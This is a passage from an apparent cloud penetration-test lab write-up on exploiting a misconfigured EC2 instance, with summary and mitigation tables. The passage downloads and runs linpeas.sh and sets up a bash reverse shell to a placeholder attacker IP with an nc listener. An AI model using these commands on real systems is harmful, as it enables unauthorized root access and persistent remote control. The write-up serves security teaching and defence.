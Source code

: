 
5.  **Privilege Escalation:**
    After gaining shell access via SSH, `sudo -l` was checked. The `linpeas.sh` script was executed for automated enumeration:
    ```bash
    wget [https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)
    chmod +x linpeas.sh
    ./linpeas.sh
    ```
    * **Result:** `linpeas.sh` identified potential privilege escalation vectors, including `sudo` configured without a password for the `ec2-user`. This allowed gaining root access.

6.  **Post Exploitation and Reverse Shell:**
    A reverse shell was established to maintain persistent access:
    * **Victim (EC2):**
        ```bash
        bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
        ```
    * **Attacker (Kali):**
        ```bash
        nc -lvnp 4444
        ```

#### Summary of EC2 Exploitation:

| Phase          | Technique Used             | Result                                   | Risk Level |
| :------------- | :------------------------- | :--------------------------------------- | :--------- |
| **Reconnaissance** | Nmap full port scan        | Found SSH, HTTP, MySQL open              | High       |
| **Authentication** | Hydra brute-force (SSH)    | Remote shell access obtained             | Critical   |
| **Data Theft** | MySQL login with weak creds  | Retrieved sensitive records              | High       |
| **Privilege Escalation** | `sudo` without password; `linpeas.sh` | Root access obtained                     | Critical   |
| **Persistence** | Reverse shell over TCP     | Maintained remote control                | Critical   |

#### Recommended Mitigations for EC2:

| Vulnerability             | Recommended Fix                                                    |
| :------------------------ | :----------------------------------------------------------------- |
| Open SSH to `0.0.0.0/0`   | Restrict SSH access to known IPs/IP ranges using Security Group rules. |
| Weak SSH credentials      | Enforce strong password policies & mandatory SSH key authentication. |
| Public MySQL access       | Bind MySQL to a private IP only; use internal network.             |
| `sudo` without password   | Apply least privilege principle to user roles on the instance.     |
| No monitoring or alerts   | Enable CloudTrail and GuardDuty for visibility and threat detection. |

---

## 1.2 Exploiting the Misconfigured S3 Bucket (`vulnerable-bucket-demo`)
